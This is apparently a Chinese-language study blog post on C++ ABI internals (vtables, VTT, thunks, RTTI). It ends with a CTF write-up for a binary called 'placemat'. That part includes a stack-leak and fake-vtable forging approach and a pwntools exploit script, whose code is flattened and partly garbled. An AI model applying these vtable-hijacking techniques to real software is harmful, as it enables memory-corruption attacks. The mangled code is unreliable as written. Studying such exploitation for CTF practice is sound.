比如No inherited virtual functionsNo virtual base classesDeclares virtual functions时, vtable就是简单的offset-to-top & RTTI fields & virtual function pointers
The elements of the VTT array for a class D:has indirect or direct virtual base classes .
Primary virtual pointer
: address of the primary virtual table for the complete object D.
Secondary VTTs
: for each direct non-virtual proper base class B of D that requires a VTT, in declaration order, a sub-VTT for B-in-D, structured like the main VTT for B, with a primary virtual pointer, secondary VTTs, and secondary virtual pointers, but without virtual VTTs.
This construction is applied recursively.
Secondary virtual pointers
: for each base class X which (a) has virtual bases or is reachable along a virtual path from D, and (b) is not a non-virtual primary base, the address of the virtual table for X-in-D or an appropriate construction virtual table.
X is reachable along a virtual path from D if there exists a path X, B1, B2, …, BN, D in the inheritance graph such that at least one of X, B1, B2, …, or BN is a virtual base class.
The order in which the virtual pointers appear in the VTT is inheritance graph preorder.
There are virtual pointers for direct and indirect base classes. Although primary non-virtual bases do not get secondary virtual pointers, they do not otherwise affect the ordering.
Primary virtual bases require a secondary virtual pointer in the VTT because the derived class with which they will share a virtual pointer is determined by the most derived class in the hierarchy.
Secondary virtual pointers may be required for base classes that do not require secondary VTTs. A virtual base with no virtual bases of its own does not require a VTT, but does require a virtual pointer entry in the VTT.
Virtual VTTs
: For each proper virtual base classes in inheritance graph preorder, construct a sub-VTT as in (2) above.
The virtual VTT addresses come last because they are only passed to the virtual base class constructors for the complete object.
单继承
子类虚表如下, 注意子类内存中虚表指针指向下表第三项. 即跳过前两项.
Address
Value
Meaning
0x400b40
0x0
top_offset (more on this later)
0x400b48
0x400b90
Pointer to typeinfo for Derived (also part of the above memory dump)
0x400b50
0x400a80
Pointer to Derived::Foo()3. Derived’s _vptr points here.
0x400b58
0x400a90
Pointer to Parent::FooNotOverridden() (same as Parent’s)
多继承
多继承时最下层的子类的内存中有多个指针, 如下表所示. 为什么内存中还有两个vptr? 因为child可能被转换为Father*或者Mother*类型的指针当做参数传递, 此时接收参数的函数不需要知道child的存在也能够访问下面内存布局中的Father部分. data显然在要其中, 而Father的虚表指针自然也会在这里, 指向child vtable以提供虚函数的信息.
_vptr$Mother
mother_data (+ padding)(这是什么padding??)
_vptr$Father = non-virtual thunk to Child::FatherFoo(void)
father_data
child_data1
值得注意的是现在child vtable里实际上装下了两个table . 如下vtable的第二部分.
; `vtable for'Child
但是 , 当子类继承父类时重载了 父类函数, 为了要使 利用多态将child* this的指针转换为father* this然后ptr->FatherFoo()的函数能够执行child ::FatherFoo(), 编译器会识别到重载的存在, 并生成上表的child class结构, 并且生成一个thunk代码片段代替Father::Foo()来调整this指针使得其变成child的class ptr. 其中_vptr$Father指向的secondary virtual table中会是这个thunk的地址.
.text:0000555555555227 ; __int64 __fastcall `non-virtual thunk to'Child::FatherFoo(Child *__hidden this)
vtable中top_offset即为-8的那一行, 看起来只是提供一个信息提示, 指child内存中Father部分到内存top的距离.sub rdi, 8并未引用该处数据.
三重多继承, 虚继承Grandparent class.
新东西: construction vtable for Parent1-in-Child VTT for Child virtual-base offset
virtual-base offset是针对Child::Child()中Patent1初始化时要访问Grandpatent数据时, this指针(此时指向Child内存中Parent1部分, 也就是Child开头)到child内存中Grandpatent部分的偏移量. IDA中construction vtable for Patent1-in-Child和vtable for Parent基本重叠, 除了前者开头的virtual-base offset在后者上方.
; `construction vtable for' Parent1-in-Child
Address
Value
Symbol
Meaning
0x4009a0
0x400950
vtable for Child + 24Parent1’s entries in Child’s vtable
0x4009a8
0x4009f8
construction vtable for Parent1-in-Child + 24Parent1’s methods in Parent1-in-Child
0x4009b0
0x400a18
construction vtable for Parent1-in-Child + 56Grandparent's methods for Parent1-in-Child
0x4009b8
0x400a98
construction vtable for Parent2-in-Child + 24Parent2's methods in Parent2-in-Child
0x4009c0
0x400ab8
construction vtable for Parent2-in-Child + 56`Grandparent’s methods for Parent2-in-Child
0x4009c8
0x400998
vtable for Child + 96`Grandparent’s entries in Child’s vtable
0x4009d0
0x400978
vtable for Child + 64`Parent2’s entries in Child’s vtable
为什么会有VTT? 来看看child的初始化就明白了:
首先Grandparent construction, 初始化vtable指针指向primary vtable.
然后Parent1初始化Child内存中的vtable ptr为VTT中Parent1-in-Child值(也就是vtable for Parent1),再修改GrandParent vtable指针指向其vtable中的Grandparent部分 . 关键在于Parent1如何知道其子类Child内存中Grandparent和他自身的距离? 方法就是传入了VTT地址, 两个Parent1-in-Child指针指示了对应的construction table和该table中的vbase offset.
其实这种情况下只传一个指针也是足够的, 但是当parent也有多个基类时就不得不使用VTT了, 很明显需要访问其多个基类的secondary vtable中的vbase offset来确定多个基类的vtable指针值(都在Child内存中).
然后Parent2继续初始化并且又修改了Grandparent的vtable指针.
因为基类的构造不应假设是其子类调用的构造函数, 所以最后Child把所有vtable指针值改向了Child vtable中的几个父类部分.
如果情况变成
“in-charge” and “not-in-charge” constructor and destructor: stackoverflow解释
构造函数可以不一样: 还是上面的例子, 如果出现了Child的定义, 但是还出现了Parent的定义, 就会有两个Parent构造函数,一个只用在Child::Child()中, 另一个用在Parent自身的构造之中. 也是所谓的in or not in charge constructor
An “in-charge” (or complete object) constructor is one that constructs virtual bases,
嗯, 不想看了. 还有一些destructor的东西.
多重继承时vtable最后的是VTT, 也就是vtable的table.
RTTI
The typeid operator produces a reference to a std::type_info structure with the following public interface
namespace std {class type_info {public :virtual ~type_info ();bool operator ==(const type_info &) const ;bool operator !=(const type_info &) const ;bool before (const type_info &) const const char * name () const private :type_info (const type_info& rhs);operator = (const type_info& rhs);
除了指向不完全类型的直接或间接指针外，相等和不等操作符在操作type_info对象时可以写成地址比较:两个type_info结构体当且仅当它们是相同的结构体(在相同的地址)时，它们描述的是相同的类型。
layout
abi::__class_type_info is used for class types having no bases, and is also a base type for the other two class type representations.不看了.
真的会累死. 回过头来一看typeid也就是这么点东西:
char __cdecl std ::type_info::operator ==(std ::type_info *a1, std ::type_info *a2)const char *v3; if ( (unsigned __int8)std ::__is_constant_evaluated() )return a1 == a2;if ( *((_DWORD *)a1 + 1 ) == *((_DWORD *)a2 + 1 ) )return 1 ;if ( **((_BYTE **)a1 + 1 ) == 42 )return 0 ;const char *)std ::type_info::name(a2);return !strcmp (*((const char **)a1 + 1 ), v3);
第二个if直接比较的是demangled name. 但是简单的修改指针为Bot虚表会导致执行Bot::taketurn对象函数. 所以我们需要伪造整个虚表而typename是, 就在栈上, 所以才需要leak栈指针. 这个修改发生在第二局, 此时进入的是Game::Multiplayer(), 就算破坏canary也没有关系, 能够在Game::play()函数里执行congratulate就可以了.
嗯, 需不需要四字节对齐? 好吧栈上的东西已经是对齐的了, 只要从name开头就可以.
.rodata:0804C35C dd 0 ; offset to this
伪造成上面这个样子, 除了typeinfo部分要换成Bot的typeinfo地址.
pl1 = flat([b'yog' .ljust(20 , b'\x00' ), p2_name_addr])0 , 0x804C1D4 , 0x804AED0 , 0x804AEF2 , 0x804AF18 , 0x804AF4E ])
注意Game class没有虚表指针, 不要看多了就看什么都是虚表.
好吧这样不行, 忽略了后面紧跟着的Game. 会被覆盖.
exp:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 from pwn import *'debug' './placemat' "./placemat" )lambda x:p.send(x) lambda x:p.sendline(x)lambda x:p.recvuntil(x)lambda :p.recvline()lambda :p.recv() lambda x:p.recv(x) lambda x,y:p.sendafter(x,y)lambda x,y:p.sendlineafter(x,y)lambda :p.interactive()b"3 Exit\n" )b"1" )b"(h)uman? " )b"h" )b"Player 1: " )b"yog" )b"Player 2: " )b"b" * 20 )b"b" * 20 )4 ))0x18 + 0x8 f'leak value: 0x{stack_addr:x} ' )b"(e.g. A3): " )b"A1" )b"(e.g. A3): " )b"B1" )b"(e.g. A3): " )b"A2" )b"(e.g. A3): " )b"B2" )b"(e.g. A3): " )b"A3" )b'yog' .ljust(20 , b'\x00' ), p2_name_addr+20 +48 +4 ])b'fake_bot' , b'\x00' *(20 +48 -8 ), 0 , 0x804C1D4 , 0x804AED0 , 0x804AEF2 , 0x804AF4E , 0x804AF4E ])b"3 Exit\n" )b"1" )b"(h)uman? " )b"h" )b"Player 1: " )b"Player 2: " )b"A1" )b"B1" )b"A2" )b"B2" )b"A3" )
这个exp的问题是由于先手是随机的但是并未检测先手, 导致一半概率达不到想要的结果. 多试两次或者再写个大循环catch exception.
 This construction is applied recursively.
This construction is applied recursively.